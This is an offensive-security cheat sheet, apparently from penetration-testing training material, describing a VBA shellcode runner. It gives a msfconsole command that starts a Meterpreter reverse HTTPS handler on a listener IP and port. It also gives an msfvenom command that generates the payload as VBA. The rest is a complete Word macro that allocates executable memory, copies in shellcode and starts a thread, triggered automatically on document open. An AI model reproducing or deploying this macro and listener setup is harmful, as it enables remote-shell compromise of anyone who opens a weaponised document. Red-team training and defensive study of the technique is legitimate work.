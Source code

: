 ## VBA Shellcode Runner

Use `VirtualAlloc` to allocate unmanaged memory that is writable, readable, and executable.

Copy the shellcode into the newly allocated memory with `RtlMoveMemory`, and

Create a new execution thread in the process through `CreateThread` to execute the shellcode.

`x86` Meterpreter Handler

```bash
msfconsole -qx "use exploit/multi/handler;set payload windows/meterpreter/reverse_https;set LHOST 192.168.119.120;set LPORT 443;run;"
```

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f vbapplication
```

```VB
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
    buf = Array(232, 130, 0, 0, 0, 96, 137, ...)

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Function 

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```
